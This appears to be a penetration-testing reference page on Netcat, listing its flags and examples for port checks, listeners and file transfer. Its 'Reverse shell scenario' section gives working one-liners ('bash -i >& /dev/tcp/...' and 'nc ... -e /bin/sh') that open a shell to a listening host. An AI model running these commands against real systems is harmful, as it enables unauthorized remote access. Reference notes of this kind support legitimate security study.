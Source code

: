 ```yaml
---
title: "nc"
# pre : '<i class="fas fa-code"></i> '
description: "Netcat, arbitrary TCP and UDP connections and listens."
date: 2020-04-09T13:47:11+02:00
# hidden : true
# draft : true
weight: 0
# tags : ['']
---
```


## Netcat

### Usage

```plain
nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
```

### Flags

```plain
      [-m minttl] [-O length] [-P proxy_username] [-p source_port]
      [-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]
      [-X proxy_protocol] [-x proxy_address[:port]]       [destination] [port]
    Command Summary:
        -4      Use IPv4
        -6      Use IPv6
        -b      Allow broadcast
        -C      Send CRLF as line-ending
        -D      Enable the debug socket option
        -d      Detach from stdin
        -F      Pass socket fd
        -h      This help text
        -I length   TCP receive buffer length
        -i interval Delay interval for lines sent, ports scanned
        -k      Keep inbound sockets open for multiple connects
        -l      Listen mode, for inbound connects
        -M ttl      Outgoing TTL / Hop Limit
        -m minttl   Minimum incoming TTL / Hop Limit
        -N      Shutdown the network socket after EOF on stdin
        -n      Suppress name/port resolutions
        -O length   TCP send buffer length
        -P proxyuser    Username for proxy authentication
        -p port     Specify local port for remote connects
        -q secs     quit after EOF on stdin and delay of secs
        -r      Randomize remote ports
        -S      Enable the TCP MD5 signature option
        -s source   Local source address
        -T keyword  TOS value
        -t      Answer TELNET negotiation
        -U      Use UNIX domain socket
        -u      UDP mode
        -V rtable   Specify alternate routing table
        -v      Verbose
        -W recvlimit    Terminate after receiving a number of packets
        -w timeout  Timeout for connects and final net reads
        -X proto    Proxy protocol: "4", "5" (SOCKS) or "connect"
        -x addr[:port]  Specify proxy address and port
        -Z      DCCP mode
        -z      Zero-I/O mode [used for scanning]
    Port numbers can be individual or ranges: lo-hi [inclusive]
```

### Examples

#### Check if port on target is open

```plain
$ nc -nv 10.10.10.1 25

Connection to 10.10.10.1 25 port [tcp/*] succeeded!
[...SNIP...]
```

#### Create a Netcat listener

This listener will listen on specific IP and port. IP can be removed if any interface is needed.

```plain
nc -lvp 10.10.10.2 80
```

#### Transferring files

Receiver

```plain
nc -nlvp 10.10.10.2 4444 > incomming.exe
```

Sender

```plain
nc -nv 10.10.10.2 4444 < /Downloads/wget.exe
```

#### Reverse shell scenario

Receiver

```plain
nc -nlvp 10.10.10.2 4444
```

Target machine

```plain
bash -i >& /dev/tcp/10.10.10.2/4444 0>&1
```

OR target machine

```plain
nc 10.10.10.2 4444 -e /bin/sh
```

### URL list

- [Linux.die.net](https://linux.die.net/man/1/nc)
